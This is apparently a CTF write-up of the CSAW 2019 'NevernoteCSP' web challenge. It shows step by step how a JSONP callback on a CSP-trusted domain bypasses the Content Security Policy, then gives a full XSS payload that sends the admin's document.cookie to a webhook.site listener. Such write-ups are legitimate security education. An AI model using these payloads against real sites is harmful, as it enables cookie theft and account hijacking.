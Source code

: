 ```yaml
---
title: '[RED CSAW CTF 2019] NevernoteCSP'
published: true
tags: [writeup, web, csp]
author: sAINT_Barber
---
```


First we are greeted with the challenge description

![alt text][image1]

We will be performing some sort of cookie stealing, and we also understand from the title that it will be pointing to a type of CSP bypass.

After creating an account and clicking around on the site the only thing you could actually do was create and upload notes.

![alt text][image2]

So, we can edit the note title and give it some content. And then we can report the post to an admin.
By this one can assume we will be doing some XSS with a cookie stealing payload to steal the admins cookie and get the flag!

The only area that does not sanitize the users input is the content area. As you can see below i have changed the content style to bold with the `<b>` tag

![alt][image3]

Now lets add a script with a simple alert!
`<script>alert('Haircuts')</script>`

![alt][image4]

Nothing came up, but we did get a warning in the dev-tools console tab

![alt][image5]

Content Security Policy is blocking the inline script, from the name 'script-src' it only accepts javascript from a source file. From there we can view the CSP in the network tab by clicking on a request and checking the headers

![alt][image6]

We can copy the policy into this site to check its' evaluation:
https://csp-evaluator.withgoogle.com/

We can see that the
`script-src 'self' cdn.jsdelivr.net *.ngs.ru` trusts domains 2 that are known to bypass CSP

![alt][image7]

After some googling i found from the cdn.jsdeliver.net domain a callback function that reflects whatever javascript you equal it as.

`https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')`

so now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')"></script>`

Lets place this in the content part of a new note and see if we bypass the CSP

And voila! We bypassed the CSP. Now we can move on to getting the admins cookie!

![alt][image8]

In general what we need to do now is report our note to the admin, wait until he/she opens our note it should redirect him/her to a malicious site that we are listening on so we can see his/her cookies in the request header.

I will be using a site called Webhook (https://webhook.site) as my listener.

We can use this javascript code to redirect the admin to our site.
`window.location.replace('malicioussite.something')`<br>
Our payload now looks like this<br>

`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762')"></script>`

Now all we need to do is add this payload then report to the admin, but if you're following along you will notice that as soon as we click on this note it will automatically redirect us to the webhooks listener (Thats what we want), and wont allow us to click the *report to admin link*. We can see the 'href' request makes: /notes/report/{note_id}, all we need to do is write down our note id and make a simple get request with that id.

Looking at the webhooks site we can see our admins request!

![alt][image9]

Perfect! Now all we need to do is use the document.cookie javascript method to print out the cookie, what i did is add the cookie to the query of the get request the admin performs on our malicious site e.g malicioussite.com/?name=sAINT_barber,

Now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762/?elaToCookie='.concat(document.cookie))"></script>`

*Note: I used the .concat() function to concatenate the document.cookie onto the query string, if you want to use the '+' sign then you will have to url encode it because the '+' in the url translates to a space.*

Now lets see if it works!

![alt][image10]

Boom! We can see in the Query strings our flag!

Note: If the cookie flag had the httpOnly flag then it would not print out with the document.cookie method.

A big Thank you to styx00! Not only did he help me complete the challenge, but also helped me understand the procedure of bypassing the CSP and Reflected XSS.

Flag: `flag{go_to_r/ProgrammerHumor_for_a_good_time}`



[image1]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image1.png
[image2]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image2.png
[image3]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image3.png
[image4]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image4.png
[image5]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image5.png
[image6]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image6.png
[image7]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image7.png
[image8]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image8.png
[image9]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image9.png
[image10]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image10.png
